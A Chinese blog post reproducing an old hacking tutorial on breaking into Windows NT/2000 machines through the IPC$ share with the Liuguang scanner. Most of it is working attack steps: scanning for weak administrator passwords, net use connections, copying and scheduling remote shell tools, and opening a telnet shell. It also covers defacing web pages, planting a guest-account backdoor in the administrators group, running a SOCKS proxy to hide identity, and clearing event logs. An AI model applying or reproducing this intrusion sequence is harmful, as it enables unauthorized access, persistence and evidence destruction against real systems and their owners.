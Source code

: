 ```yaml
---
layout: post
title: IPC$ 探测
tags: IPC$ 探测
categories: 🌐
---
```

## IPC$ 探测 — 流光基础教程

IPC : interprocess communications
准确说 是 IPC$  是默认的在系统启动时候的 admin 共享.

是 windowsNT / 2k 特有的 远程网络管理登录功能

特点是: 同一时间内 两个 IP 之间 只允许建立一个连接.

试图通过 ipc$ 连接 会在 ecentlog 中留下记录. 不管你是否登录成功.



启动流光:
获得一台主机的管理权限  并将这个主机做成跳板,那么就可以用命中率高的办法来探测了.
即测试一批 IP 来获得弱口令.


在主界面选择“探测—探测 POP3/FTP/NT/SQL 主机”选项。或者直接按 CTRL+R，然后弹出 
“主机扫描设置”对话框。 

3：输入我们要破解的IP 段，在选项中我们把“frontpage”主机自动加入HTTP 主机列表取 
消。因为我们只想获得IPC 弱口令，这样可以加快扫描的速度，加入IP，选择扫描NT/98 主 
机，需要说明的是这里我们可以选择的还有很多，包括SQL/FTP/POP3 等等，灵活运用可以给 
我今后的探测工作带来很大的方便 

4：探测中„„ 
警告：如果你要探测的是流光保留的国内IP 段会被禁止的，也就是探测的时候信息栏会出 
现“IP 保留”的字样，免得初学HACKER 的你误伤国内的站点的同时给自己带来麻烦！ 

5：扫描到的NT/98 主机列表（我就不贴了） 

6：没有扫描到密码的，就不用看报告了 

7：有了 NT/98 的机器了，就可以正式开始 IPC$，右键点击谈探测的“IPC$主机—探测—探 
测所有IPC$用户列表”。或者按键盘的CTRL+F9 

8：注意下面两个复选框的设置，把两个都选上，因为我们只要 ipc$管理员的弱口令，而且 
只要有一个就可以了，然后点“选项”。 

9：点“选项”后，弹出“用户列表选项”对话框，为了加快弱口令扫描速度，我们把它全部 
取消，比如第二个选项，既然对方景致列出用户了，我想对于一个网管来说，弱口令可能性 
也是微乎其微的 


10：探测中„„很快就出现破解成功的提示，上面的FTP 主机（IP192.168.0.1）也有了相应 
的变化。 

11：又出现查看报告的窗口，这次有结果，当然要仔细看看 

12：有远程主机的管理密码了，我们剩下的就是想办法控制他了，有什么好办法呢？当然有 
很多了，比如在“工具——NT/IIS 工具”菜单下，这些我们以后在说，今天还是先练习NET 
命令吧，这样有利于我们了解这些命令究竟是在完成些什么样的功能 

13：目标是如何被黑的 
开个DOS 命令提示符窗口执行命令如下命令 “||”后面是说明 
1）net use \对方IPipc$“密码” /user：“用户名”||与对方建立ipc$ 远程连接 
2）copy icmd.exe \对方ipadmin$ ||admin$是对方的winnt 目录，这里存放文件多 
3）net time \对方ip ||查看对方的系统时间 
4）at \对方ip 程序启动的时间 启动程序名 启动程序的参数 ||用at 命令来定时启动程 
序，在这里我们用soon 这个程序来做也可以，它可以取代3/4 两步。 
5）tenlent 对方ip 端口 ||通过远程服务端口远程登陆目标主机 
6）输入pass（口令） ||如果不是就用icmd.exe，或者没有设置口令就不用了 
7）在开个窗口，继续copy我们要用的东西，copy sock.exe、copy ntlm.exe、copy vclear.exe。 
如果我们真的想黑了它，只需要把我们的首页文件覆盖目标的首页就OK 了。我们可以通过在 
跟目录执行dir /s default.htm 或者dir /s index.htm 来确定对方的首页的位置，一般是 
在X：interpubwwwroot 就可以用修改好的首页覆盖对方的首页 
8）其实黑人家是很不道德的而且违法的，我们最还是物有所值，做成跳板吧，今后干活方便 
点。执行我们copy 过去的ntlm.exe 取消登陆验证。再给自己留个后门，比如提升guest 的 
权限，或者其他的后门工具，这类东西有很多，自己选吧 
9）做个sock5 代理玩玩，用在QQ 上面不错哦 
执行我们copy 过去的sock -install,net start skserver ,看看用在QQ 上的效果，这样 
就可以隐藏自己的真实身份了，而且在局域网也可以通过服务器上QQ 了 
10）问题思考：还能够做成其它的吗？ 
当然了，只要你有时间，而且愿意做，一个个人专用的服务器在你面前，你想做什么都可 
以 


14：日志清除，断开连接： 
支持我们copy 过去的cl.exe clear.exe 都可以清除日志，比如clear all ：清除所有日 
志。然后断开连接：net use \对方 IPIPC$ /delete 这一步是必须的，尤其是在一些有争 
议的站点上，或者是国内的站点，除非你想让电视报导XXX 地区又捕获黑客一名XXX 







IPC$的定义：IPC$是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，在远程管理计算机和查看计算机的共享资源时使用。
IPC$的作用：利用IPC$可以与目标主机建立一个空的连接(无需用户名与密码)，而利用这个空的连接，我们就可以得到目标主机上的用户列表。用“流光”的IPC$探测功能，可以得到用户列表，并配合字典，进行密码尝试。
IPC$空连接主机步骤：
1、首先要扫到能建立IPC$空连接的主机，有了目标才能进攻，推荐使用安全焦点的xscan_gui v1.3，该软件使用方法很简单，而且速度快，也许还能扫出其他漏洞。
2、详细了解NET命令，做IPC$空连接主机是不可不知NET命令使用的。
3、如果知道对方的用户名和密码，就用下面这个命令：
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
退出的命令是：
net use \\127.0.0.1\ipc$ /delte
4、大部分情况下我们都不知道对方机器的用户名和密码。这就需要知道他的IP，我们使用用ping命令，格式为：ping www.xxx.com(如果用QQ聊天更简单，现在好多QQ都显IP的)， 用追捕查他的操作系统，用户名等。现在信息都有了，然后大家试试弱智点的密码，如:123，12345，123456，用户名就是Administrator。运气好的话就可以进入了。
5、实在猜不出密码的话就只有用榕哥的大作――流光，运行探测――扫描POP3/FTP/NT/SQL主机，会出现“主机扫描设置”，在“扫描范围”中分别填写“开始地址”与“结束地址”，这步你可以选择要扫描的IP段，也可以只填某一IP，扫描主机类型”选择“NT/98”，然后开始扫描，如果单扫某一IP，我建议扫描主机类型选ALL，选项选中的内容不要取消，这样可以看看他的机器是什么颜色的，具体表示看下表：
红色：该主机安装了FrontPage扩展，并没有权限设置。如果扫到红色的，你可以打开FrontPage，在打开那里填上他的IP地址，接着你就知道怎么做了。
蓝色：表示该主机上安装了FrontPage扩展。
黑色：远程执行命令。你可以单击该主机――连接，就可以用DOS命令操作远程计算机，如:dir c:\\
黄色：直接下载对方SAM文件(SAM文件是NT下储存用户和密码的文件，下载后用LC3可以解开)。
绿色：将对方SAM文件上传到指定的FTP服务器。
6、现在知道了他主机的情况，就可以开始探测他的用户列表了！右键点IPC$主机－探测－探测所有IPC$用户列表，下面两个对话框的设置都选上，我们只要IPC$管理员的弱口令。在结果点击右键，探测用户列表，Administrstor(超级用户)直接探测到ADMIN的密码，如果实在不行，我们还可以拿其他用户“开刀”，然后在想办法让他变成超级用户。
7、得到用户名和密码我们就可以连接了。打开win2000下的cmd.exe(也就是命令提示符)。然后重复第二步教过的连接连接命令:
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
成功连接后显示命令成功完成。
8、现在你可以用copy命令把你想要上传的东西放到他的机器里。
9、如果你想黑他页面的话就找到网页所在的目录，如:c:\inetpub\wwwroot，用命令：
copy c:\index.htm \\IP地址\c$\inetpub\wwwroot
这里的c:\index.htm指的是你作好的网页，上传替换掉原先的文件就可以改他的主页。
其他的操作方式就自己开发吧！以下提供几条有用的命令：
建立空连接
net use \\IP\ipc$ ”" /user:”"
建立非空连接
net use \\IP\ipc$ ”用户名” /user:”密码”
映射默认共享
net use z: \\IP\c$ ”密码” /user:”用户名” （即可将对方的c盘映射为自己的z盘，其他盘类推）
如果已经和目标建立了ipc$，则可以直接用IP+盘符+$访问,具体命令：
net use z: \\IP\c$
删除一个ipc$连接
net use \\IP\ipc$ /del
删除共享映射
net use c: /del 删除映射的c盘，其他盘类推
net use * /del 删除全部,会有提示要求按y确认
经典入侵示例
1.C:\>net use \\127.0.0.1\IPC$ ”" /user:”admintitrators”
这是用《流光》扫到的用户名为administrators，密码为”空”的IP地址，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为”空”，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。
2. C:\>copy srv.exe \\127.0.0.1\admin$
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。
3.C:\>net time \\127.0.0.1
查查时间，发现127.0.0.1 的当前时间是2005/5/1上午11:00，命令成功完成。
4.C:\>at \\127.0.0.1 11:05 srv.exe
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然无法启动）。
5.C:\>net time \\127.0.0.1
再查查到时间没有，如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。
6.C:\>telnet 127.0.0.1 99
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了。
7.C:\>copy ntlm.exe \\127.0.0.1\admin$
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。
8.C:\WINNT\system32\>ntlm
输入ntlm启动（这里的C:\WINNT\system32\>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现”DONE”的时候，就说明已经启动正常。然后使用”net start telnet”来开启Telnet服务！
9.Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！然后你想做什么就做什么吧。
为了以防万一,我们再把guest激活加到管理组。
10.C:\>net user guest /active:yes
将对方的Guest用户激活。
11.C:\>net user guest 1234
将Guest的密码改为1234,或者你要设定的密码。
12.C:\>net localgroup administrators guest /add
将Guest变为Administrator (如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机) 。
其他操作就看您的能力和水平了，自己揣摩吧！
注：此为本人几年前收藏的经典网文，虽然好多命令和工具均已无法正常运行，但其思路和方法仍然值得网络安全爱好者学习，在此向原作者表示致敬！




流光5 
